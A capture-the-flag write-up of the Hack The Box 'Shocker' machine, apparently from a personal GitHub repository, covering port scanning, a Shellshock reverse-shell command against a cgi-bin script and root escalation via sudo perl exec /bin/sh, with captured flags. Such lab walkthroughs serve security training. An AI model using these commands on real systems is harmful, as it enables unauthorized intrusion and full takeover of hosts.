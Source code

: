 # Shocker
> Write-up author: jon-brandy

## Lesson learned:
- Directory listing using dirbuster (found cgi-bin directory which is the interest here).
- Conduct shellshock attack.
- Exploiting perl binary.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6a3d07d8-d7ff-47dc-bc67-8d520eff6f0d)


## STEPS:

> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.56 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 06:17 PDT
Nmap scan report for shocker.htb (10.10.10.56)
Host is up (0.034s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.02 seconds
```

1. Based from the nmap result, we know the machine runs a web application and ssh service.
2. Since there's no interesting info currently, i ran dirbuster and found a directory named `cgi-bin`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/98b50867-ce6d-4244-8830-f178eda7757d)


3. Which is interesing, it's forbidden. Judging from the challenge title and the directory we found.
4. This challenge could be related to `shellshock exploit` --> `Apache mod CGI`.
5. This should be the one --> `https://www.exploit-db.com/exploits/34900` (since the web service is apache).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/64478c1c-5325-41e0-8907-53dcba9bcd91)


6. Let's use the python script from the documentation.

```bash
python2 reverse_shell.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.26 lport=443 pages=/cgi-bin/user.sh
```

```
┌──(brandy㉿bread-yolk)-[~/Downloads/machine/machine_shocker]
└─$ python2 reverse_shell.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.26 lport=443 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> whoami
shelly

10.10.10.56> 
```


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7faa2e3b-6dc0-4795-82c2-2ab2bc6e05dd)


## USER FLAG

```
c40e31276c798e9a8443c4c51866e733
```

7. After checking sudo permission for shelly, it seems we can run perl without password.
8. This should gave us root easily by run --> `perl -e 'exec "/bin/sh";'`. Documentation --> https://gtfobins.github.io/gtfobins/perl/

```
10.10.10.56> sudo /usr/bin/perl -e 'exec "/bin/sh";'
10.10.10.56> whoami
root

10.10.10.56> 
```

> GETTING ROOT FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7f6e5e4a-319f-44d8-a166-0eed6bc3fd6f)


## ROOT FLAG

```
c5622bf600ecac10ac18b6095a0a614c
```

